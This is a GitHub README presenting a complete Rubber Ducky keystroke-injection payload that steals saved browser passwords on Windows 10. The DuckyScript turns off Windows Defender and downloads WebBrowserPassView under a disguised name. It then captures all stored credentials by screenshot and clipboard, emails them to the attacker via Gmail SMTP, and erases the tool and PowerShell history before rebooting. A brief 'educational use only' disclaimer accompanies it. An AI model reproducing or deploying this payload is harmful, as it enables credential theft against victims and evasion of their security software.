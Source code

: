 # Web-Browser-Password-Grabber
This is a Rubber ducky payload that downloads WebBrowserPasswordView file and screenshots / duplicates the passwords. Works for Windows 10.

Note:

Make sure to change all of the email placeholders to your email credentials or it will not work!

Feel free to toy around with the delay times as this might be too fast for some slow computers

This payload will only work IF:
  * The pc is running on windows 10
  * Windows Defender is disabled
  * There is no sophisticated antivirus installed.
 
 Runview:

This payload works by disabling windows defender, downloading an app that views all 
saved passwords on all browsers. The payload then screenshots the interface, and 
then copy-pastes all of the data. It then emails you all of the files that were created, 
removes powershell history & the payload, and then shut's down the pc.

**I AM NOT RESPONSIBLE FOR ANY MISUSE OF THIS PAYLOAD. IT'S USE IS FOR EDUCATIONAL AND TESTING USE ONLY. PLEASE DO NOT USE THIS IN ANY MALICIOUS WAYS!!!**

Payload:

```
DEFAULTDELAY 200
DELAY 500
GUI r
DELAY 200
ESCAPE
DELAY 200
TAB
DELAY 100
ENTER
DELAY 500
STRING virus & threat protection
DELAY 200
ENTER
DELAY 1200
TAB 
DELAY 100
TAB
DELAY 100
TAB
DELAY 100
TAB
DELAY 500
ENTER
DELAY 500
SPACE 
DELAY 500
ALT y
DELAY 100
GUI r
DELAY 300
STRING powershell
DELAY 300
CTRL-SHIFT ENTER
DELAY 500
ALT y
DELAY 500
STRING cd $home
ENTER
STRING powershell (new-object System.Net.WebClient).DownloadFile('https://github.com/Mythaman/Web-Browser-Password-Grabber/raw/main/WebBrowserPassView.exe','WebBrowserHandler.exe')
ENTER
DELAY 1000
STRING start 'WebBrowserHandler.exe'-WindowStyle maximized
ENTER
DELAY 500
WINDOWS PRINTSCREEN
DELAY 200
CTRL a
DELAY 200
CTRL c
DELAY 500
GUI r
DELAY 500
STRING powershell
DELAY 200
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 500
STRING cd $home
ENTER
STRING Stop-Process -Name 'WebBrowserHandler'
ENTER
STRING Remove-Item 'WebBrowserHandler.exe'
ENTER
STRING Remove-MpPreference -ExclusionPath C:\Users
ENTER
STRING $SMTPServer = 'smtp.gmail.com'
ENTER
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
ENTER
STRING $SMTPInfo.EnableSsl = $true
ENTER
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('YOUR-EMAIL-BEFORE-THE-@
SHIFT 2
STRING gmail.com', 'YOUR-EMAILS-PASSWORD');
ENTER
STRING $ReportEmail = New-Object System.Net.Mail.MailMessage
ENTER
STRING $ReportEmail.From = 'YOUR-EMAIL-BEFORE-THE-@
SHIFT 2
STRING gmail.com'
ENTER
STRING $ReportEmail.To.Add('YOUR-EMAIL-BEFORE-THE-@
SHIFT 2
STRING gmail.com')
ENTER
STRING $ReportEmail.Subject = 'Passwords Successfully Logged. Data includes Copy-Paste of credentials & a screenshot aswell.'
ENTER
STRING $ReportEmail.Body = Get-Clipboard
ENTER
STRING cd $home\Pictures\Screenshots
ENTER
STRING $Latest = gci $home\Pictures\Screenshots | sort LastWriteTime | select -last 1
ENTER
STRING Rename-Item $Latest
ENTER
DELAY 200
STRING FileToSend.png
ENTER
DELAY 200
STRING $ReportEmail.Attachments.Add('$home\Pictures\Screenshots\FileToSend.png')
ENTER
STRING $SMTPInfo.Send($ReportEmail)
ENTER
STRING Remove-Item (Get-PSreadlineOption).HistorySavePath
ENTER
STRING Restart-Computer
ENTER
```

